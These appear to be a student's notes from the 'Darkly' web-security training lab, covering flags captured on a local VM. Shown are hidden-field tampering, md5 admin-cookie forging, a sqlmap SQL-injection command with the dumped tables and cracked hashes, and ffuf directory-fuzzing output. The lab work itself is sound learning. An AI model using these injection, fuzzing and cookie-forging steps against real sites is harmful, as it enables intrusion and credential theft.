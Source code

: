 #+TITLE: Temp

* Login page :

Recover password - webmaster@borntosec.com
~flag - 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0~

La balise est cachee, si on supprime le contenu du form et qu'on submit, le flag nous est donne

* Cookies :
Cookies - I_am_admin 68934a3e9455fa72420237eb05902327
hashid 68934a3e9455fa72420237eb05902327
Le hash est en md5 est veut dire false

echo true | md5
74d9a83219cabaab06a69fd318873f335

Remplacons le cookie

* Search image :

vulnerable a l'injection sql
sqlmap --batch --dump -u <curl requete> --level=5 --risk=3 --technique=BEU
echo 1928e8083cf461a51303633093573c46 | sha2
~flag - fe0ca5dd7978ae1baae2c1c19d49fbfbb37fe7905b9ad386cbbb8206c8422de6~

* Search users :
injection sql comme image

echo 5ff9d0165b4f92b14994e5c685cdce28 | sha2
~flag - 3b4e8a30ecbfde518f50f2bda1912b40338ecd71821faeb1e9cdf44cefff95f5~

* Source page :
?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c

* Login :
~admin - shadow = b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2~
root - shadow =
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

* Fuzzing :

url/whatever - htpasswd http://192.168.56.102/whatever/htpasswdd
root:8621ffdbc5698829397d97767ac13db3 - dragon
go to url/admin
~flag d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff~

* Member survey :

modifier les parametres post dans le browser en mettant 42
~flag 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa~



Database: Member_Brute_Force
Table: db_default
[2 entries]
+----+-------------------------------------------+----------+
| id | password                                  | username |
+----+-------------------------------------------+----------+
| 1  | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) | root     |
| 2  | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) | admin    |
+----+-------------------------------------------+----------+

Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                                                                                                          | countersign                                    |
+---------+-----------+--------+-----------+-----------+----------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                                                                                                             | 2b3366bcfd44f540e630d4dc2b9b06d9               |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                                                                                                            | 60e9032c586fb422e2c16dee6286cf10 (oktoberfest) |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | \\0418\\043E\\0441\\0438\\0444 \\0412\\0438\\0441\\0441\\0430\\0440\\0438\\043E\\043D\\043E\\0432\\0438\\0447 \\0414\\0436\\0443\\0433\\0430\\0448\\0432\\0438\\043B | e083b24a01c483437bcf4a9eea7c1b4d               |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good !                                                                                        | 5ff9d0165b4f92b14994e5c685cdce28               |
+---------+-----------+--------+-----------+-----------+----------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------+


Database: Member_images
Table: list_images
[6 entries]
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+


Database: Member_survey
Table: vote_dbs
[4 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| id_vote | int(11)      |
| nb_vote | int(11)      |
| subject | varchar(255) |
| vote    | float        |
+---------+--------------+


λ ~/gitlab/darkly/ main* ffuf -w ~/tmp/directory-list-2.3-medium.txt -u 'http://192.168.56.102/FUZZ'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.102/FUZZ
 :: Wordlist         : FUZZ: /Users/paure/tmp/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
# directory-list-2.3-medium.txt [Status: 200, Size: 6892, Words: 616, Lines: 130]
                        [Status: 200, Size: 6892, Words: 616, Lines: 130]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
images                  [Status: 301, Size: 184, Words: 6, Lines: 8]
# Copyright 2007 James Fisher [Status: 200, Size: 6892, Words: 616, Lines: 130]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 6892, Words: 616, Lines: 130]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
admin                   [Status: 301, Size: 184, Words: 6, Lines: 8]
# Priority ordered case-sensitive list, where entries were found [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
# on at least 2 different hosts [Status: 200, Size: 6892, Words: 616, Lines: 130]
audio                   [Status: 301, Size: 184, Words: 6, Lines: 8]
css                     [Status: 301, Size: 184, Words: 6, Lines: 8]
includes                [Status: 301, Size: 184, Words: 6, Lines: 8]
js                      [Status: 301, Size: 184, Words: 6, Lines: 8]
# This work is licensed under the Creative Commons [Status: 200, Size: 6892, Words: 616, Lines: 130]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 6892, Words: 616, Lines: 130]
fonts                   [Status: 301, Size: 184, Words: 6, Lines: 8]
errors                  [Status: 301, Size: 184, Words: 6, Lines: 8]
whatever                [Status: 301, Size: 184, Words: 6, Lines: 8]
                        [Status: 200, Size: 6892, Words: 616, Lines: 130]
:: Progress: [220560/220560] :: Job [1/1] :: 2313 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
